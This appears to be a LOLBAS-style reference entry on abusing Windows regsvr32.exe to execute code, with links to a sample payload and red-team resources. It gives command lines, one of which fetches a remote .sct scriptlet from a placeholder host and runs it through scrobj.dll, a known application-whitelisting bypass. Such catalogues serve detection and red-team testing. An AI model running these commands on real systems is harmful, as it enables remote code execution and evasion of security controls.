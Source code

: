 ## Regsvr32.exe
  
* Functions: Execute

```
regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll    
    
regsvr32.exe /s /u /i:file.sct scrobj.dll     
```
   
Acknowledgements:
* Casey Smith - @subtee
   
Code sample:
* [Regsvr32_calc.sct](https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payloads/Regsvr32_calc.sct)[1]

Resources:
* https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Regsvr32.md
* https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
* https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/

Full path:
```
C:\Windows\System32\regsvr32.exe
C:\Windows\SysWOW64\regsvr32.exe
```

Notes:
[1]Code sample linked to Red Canary - Atomic Red Team


 

   
   
